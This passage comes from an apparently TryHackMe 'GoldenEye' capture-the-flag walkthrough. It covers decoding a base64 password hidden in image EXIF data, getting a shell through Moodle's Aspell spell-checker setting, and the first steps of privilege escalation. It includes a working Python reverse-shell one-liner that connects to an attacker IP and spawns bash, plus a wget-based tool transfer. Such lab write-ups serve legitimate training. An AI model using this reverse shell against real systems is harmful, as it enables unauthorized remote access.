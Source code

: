 ```
X Resolution                    : 300
Y Resolution                    : 300
Exif Byte Order                 : Big-endian (Motorola, MM)
Image Description               : eFdpbnRlcjE5OTV4IQ==
Make                            : GoldenEye
Resolution Unit                 : inches
Software                        : linux
Artist                          : For James
Y Cb Cr Positioning             : Centered
Exif Version                    : 0231
Components Configuration        : Y, Cb, Cr, -
User Comment                    : For 007
Flashpix Version                : 0100
Image Width                     : 313
Image Height                    : 212
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:4:4 (1 1)
Image Size                      : 313x212
Megapixels                      : 0.066
```

```
kali@kali:~/CTFs/tryhackme/GoldenEye$ echo 'eFdpbnRlcjE5OTV4IQ==' | base64 -d
xWinter1995x!
```

13. As this user has more site privileges, you are able to edit the moodles settings. From here get a reverse shell using python and netcat. Take a look into Aspell, the spell checker plugin.

```py
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.106.222",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

## Task 4 Privilege Escalation

Now that you have enumerated enough to get an administrative moodle login and gain a reverse shell, its time to priv esc.

1. Download the linuxprivchecker to enumerate installed development tools.

To get the file onto the machine, you will need to wget your local machine as the VM will not be able to wget files on the internet. Follow the steps to get a file onto your VM:

- Download the linuxprivchecker file locally
- Navigate to the file on your file system
- Do: python -m SimpleHTTPServer 1337 (leave this running)
- On the VM you can now do: wget <your IP>/<file>.py

OR

Enumerate the machine manually.
